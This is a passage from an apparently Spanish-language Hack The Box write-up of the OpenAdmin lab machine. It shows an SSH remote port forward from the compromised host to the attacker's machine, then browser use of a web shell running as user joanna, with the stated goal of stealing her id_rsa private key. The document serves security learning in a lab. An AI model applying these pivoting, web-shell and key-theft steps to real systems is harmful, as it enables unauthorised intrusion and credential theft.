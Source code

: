 Hacemos el ***Remote Port Forwarding***:

```bash
jimmy@openadmin:/var/www/internal$ ssh -R 52846:127.0.0.1:52846 k4miyo@10.10.14.27 -p 2222
The authenticity of host '[10.10.14.27]:2222 ([10.10.14.27]:2222)' can't be established.
ECDSA key fingerprint is SHA256:X+58wT4JhCZo1JHA1IfaUg4HqR7NmOzkqFouwQwkYu0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.14.27]:2222' (ECDSA) to the list of known hosts.
k4miyo@10.10.14.27's password: 
Linux k4mipc 5.14.0-2parrot1-amd64 #1 SMP Debian 5.14.6-2parrot1 (2021-09-25) x86_64
 ____                      _     ____            
|  _ \ __ _ _ __ _ __ ___ | |_  / ___|  ___  ___ 
| |_) / _` | '__| '__/ _ \| __| \___ \ / _ \/ __|
|  __/ (_| | |  | | | (_) | |_   ___) |  __/ (__ 
|_|   \__,_|_|  |_|  \___/ \__| |____/ \___|\___|
                                                 



The programs included with the Parrot GNU/Linux are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Parrot GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Nov 28 21:14:59 2021 from 10.10.10.43
░▒▓    ~  ✔  with k4miyo@k4mipc ▓▒░ 
```

Validamos que el puerto 52846 se encuentra abierto en nuestra máquina:

```bash
❯ lsof -i:52846
COMMAND    PID   USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
sshd    635608 k4miyo   10u  IPv6 2028358      0t0  TCP localhost:52846 (LISTEN)
sshd    635608 k4miyo   11u  IPv4 2028359      0t0  TCP localhost:52846 (LISTEN)
```

Ahora nos abrimos el navegador hacia dicho puerto y apuntamos a nuestra shell:

![](/assets/images/htb-openadmin/openadmin-web4.png)

Podemos ejecutar comandos como el usuario **joanna** y como pista si checamos el contenido del archivo `main.php`, nos dice que dicho usuario tiene su archivo `id_rsa`; por lo tanto, vamos a tratar de obtenerlo para posteriormente tratar de ingresar puerto el puerto 22.
